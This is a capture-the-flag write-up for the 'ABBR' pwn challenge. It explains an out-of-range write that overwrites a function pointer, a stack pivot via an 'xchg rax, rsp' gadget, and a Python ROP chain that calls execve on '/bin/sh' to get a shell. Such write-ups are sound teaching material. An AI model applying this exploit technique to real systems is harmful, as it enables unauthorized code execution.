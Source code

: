 # ABBR

## TLDR
### Vulnerability
* out of range refference
* buffer overflow
### How to attack
* overwrite function pointer
* execute rop chain

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Statically linked
* Symbol  : Not stripped

result of checksec
* RELRO  : Partial RELRO
* Canary : Enable
* NX     : Enable
* PIE    : Disable

### Exploit 
In english\_expand(), we can overwrite out of text area.  
The structure of Translator is just below the text. so we can control RIP value with overwriting "translate" member of structure.  


Next, What value we should overwrite with?  
There is great gadget, "xchg rax, rsp".  
When the translate member is execute as function, RAX is the address of text where we can freely write on.  
So we should prepare rop chain gadget there.  

A part of exploit
```
xchg_eax_esp = 0x405121
rdi_ret = 0x4018da
rsi_ret = 0x404cfe
rax_ret = 0x45a8f7
rdx_ret = 0x4017df
mov_ptr_rdi_rsi_ret = 0x45684f
syscall = 0x4012e3

def exploit():
	
	payload = b"aaw"
	payload += b"A"*(0xfff-3-3)
	payload += b"\x21\x51\x40"
	conn.sendafter("text: ", payload) 
	
	payload = p64(rdi_ret)
	payload += p64(addr_bss)
	payload += p64(rsi_ret)
	payload += b"/bin/sh\x00"
	payload += p64(mov_ptr_rdi_rsi_ret)
	payload += p64(rsi_ret)
	payload += p64(0)
	payload += p64(rdx_ret)
	payload += p64(0)
	payload += p64(rax_ret)
	payload += p64(59)
	payload += p64(syscall)

	conn.sendlineafter("text: ", payload) 
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/abbr.d/solve.py).

## Reference

twitter: @kam1tsur3
